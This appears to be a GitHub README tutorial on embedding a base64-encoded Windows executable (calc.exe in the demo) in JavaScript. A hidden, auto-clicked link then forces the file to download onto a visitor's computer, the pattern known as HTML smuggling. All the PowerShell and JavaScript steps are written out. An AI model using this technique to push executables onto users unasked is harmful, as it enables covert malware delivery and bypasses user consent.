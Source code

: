 # INSTANT File Downloads Using JavaScript:
## Instantly download a file from your web page into the users computer Using a JavaScript Script.
<br />
<br />

## For this demonstration I'm going to use Windows for the System and The Calculator app located at 'C:\Windows\System32\calc.exe'


---

# Steps
* Get The Content of Calc.exe in Powershell by running 
```powershell
(Get-Content C:\Windows\System32\calc.exe)
```
this will output a bunch of data representing Calc.exe

* Run The following Command to Base64 encode the output.
```powershell
$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Windows\System32\calc.exe'))
```
this will Encode the data into Base64 String making it easier to work with.

* Now to Output the $base64string variable we need to put it in a file run the following command to write the data into a file
```powershell
$base64string | Out-File TempData.log
```
* now open the file up in your favorite code editor or just use notepad by running the command:
```powershell
notepad.exe TempData.log
```
* Copy the Whole Data and paste it in the [script.js](script.js) Variable named 'filedata'


## After copying the base64 encoded data into that variable now we can start to code the whole script.js file
* first of we're going to create a function to convert the base64 data into Bytes
```js
function base64tobytes(base64data){
    var binaryValues = atob(base64data);
    var binaryLength = binaryValues.length
    var bytesData = new Uint8Array(binaryLength);

    for ( var i = 0; i < binaryLength; i++){
        bytesData[i] = binaryValues.charCodeAt(i);
    }

    return bytesData.buffer;
}
```
i'm not gonna get into this much because it's basic js and im just using built-in Library in JavaScript and There's a lot of documentations online for these.

---

* Now we're going to pass the data into the function
```js
var fileBytes = base64tobytes(filedata); 
```

* now we're going to defind a new Blob it has to be a new Blob because this is a object.
```js
var blob = new Blob([fileBytes], {"type":"octet/stream"});
```
* now we have to force the user into downloading, we can do that by creating an html anchor tag.
```js
var anchor = document.createElement("a");
document.body.append(anchor);
// we can hide the anchor by using some basic CSS
anchor.style = "display: None;"
```
* now the important part, we need to create a url that reach out for the blob we created earlier.
```js
var url = window.URL.createObjectURL(blob);
anchor.href = url;
```
* and finally we want to force that to download, we can do it by simply putting:
```js
anchor.download = filename;
```
* now we do need to force and click on that a tag HTML element.
```js
anchor.click();
```
* If you want to remove after the download put this in your code.
```js
window.URL.revokeObjectURL(url);
```
# **for educational purposes Only!**